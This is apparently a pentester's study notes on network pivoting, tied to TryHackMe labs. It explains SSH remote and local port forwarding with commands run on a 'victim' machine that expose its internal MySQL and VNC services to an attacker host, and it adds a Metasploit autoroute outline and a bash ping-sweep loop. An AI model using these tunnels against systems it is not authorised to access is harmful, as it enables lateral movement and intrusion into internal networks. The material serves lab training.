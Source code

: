 [Labs](https://attackdefense.com/listing?labtype=linux-security-pivoting&subtype=linux-security-pivoting-basics)
[Cheatsheet](https://web.archive.org/web/20181108223619/https://bitrot.sh/cheatsheet/14-12-2017-pivoting/)
[Blog](https://medium.com/@6c2e6e2e/network-pivoting-like-a-pro-2fa04a569d8c)
[Red teamers guide to pivoting](https://web.archive.org/web/20181110130047/https://artkond.com/2017/03/23/pivoting-guide/)
[Bitrot](https://web.archive.org/web/20180405115503/https://bitrot.sh/)

[Lab](https://tryhackme.com/room/wreath)
[Lab](https://tryhackme.com/room/borderlands)
# SSH port forwarding

Port tunneling or forwarding is a networking technique that allows traffic between ocal and remote machine.
We use port tunneling when we either can’t reach a destination because it is protected behind a firewall or only accessible internally.

## Remote Forwarding
Exposing the internal services and interact with them from attacker machine.
so basically :

|Victim side|Attacker side|
|--|--|
|127.0.0.1:3306|192.168.0.106:8080|
|127.0.0.1:5900|192.168.0.106:5555|

With remote port forwarding attacker is the one listening locally for traffic from the compromised server.

`ssh -R RemortPort:localhost:localport attacker@192.168.0.106`

Commands will be ==executed on victim machine==:
```
ssh -R 8080:127.0.0.1:3306 attacker@192.168.0.106
ssh -R 5555:127.0.0.1:5900 attacker@192.168.0.106
```

## Local Forwarding
Making remote service available on local machine.
```
ssh -L local_port:remort_ip:remort_port victim@ip

ssh -L 5050:127.0.0.1:21 admin@10.10.10.90
```
means on attacker machine local port 5050 will be routed to port 21 of victim machine 10.10.10.90.


### If there is no way then use msf
****
web_delivery > autoroute > ping sweep > Will get all the internal services.
****


# Manual
To find out the avaiable hosts in linux we will do ping speep
`for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`
by this simple script we will be able to find up hosts.

***So 3 ways:***
1. ssh from the machine to attacker (remote)
2. ssh from attacker to machine (local)
3. autoroute for internal ip running services.

![](https://i.imgur.com/aTxpNSI.png)

# Wreath
**Contents**
- [ ] Code Analysis (Python and PHP)
- [ ] Locating and modifying public exploits  
    
- [ ]  Simple webapp enumeration and exploitation  
    
- [ ] Git Repository Analysis
- [ ] Simple Windows Post-Exploitation techniques
- [ ] CLI Firewall Administration (CentOS and Windows)
- [ ] Cross-Compilation techniques
- [ ] Coding wrapper programs
- [ ] Simple exfiltration techniques  
    
- [ ] Formatting a pentest report


